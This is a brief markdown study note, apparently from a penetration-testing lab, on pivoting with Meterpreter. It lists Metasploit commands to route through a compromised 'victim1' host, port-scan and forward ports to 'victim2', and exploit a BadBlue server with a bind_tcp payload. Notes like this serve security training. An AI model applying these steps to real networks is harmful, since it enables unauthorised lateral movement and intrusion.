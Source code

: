 # Pivoting with Meterpreter
Gaining access to a system on an internal network using a different machine you have access to.  

1. Copy the IP address of the victim1 interface
2. Add a route with meterpreter -- ```run autoroute -s (IP address subnet range, example 192.168.1.0)/subnet(the lab uses /20)```
3. Background meterpreter session
4. Use portscan module to scan for open ports on the target
   - Module: **auxiliary/scanner/portscan/tcp**
5. set RHOSTS to victim2
6. For faster scan, set ports from 1-100
7. run

Forward port 80
1. Go to session 1
2. ```portfwd add -l 1234 -p 80 -r (victim 2 IP)```
3. Run db_nmap scan ```db_nmap -sS -sV -p 1234 localhost```
4. Alternatively you can run just nmap form the local host -- ```nmap -sS -sV -p 1234 localhost```

Exploiting
1. Use Badblue module
2. set payload to bind instead of reverse TCP -- ```windows/meterpreter/bind_tcp```
3. Set RHOSTS to Victim 2
4. update LPORT to a different port

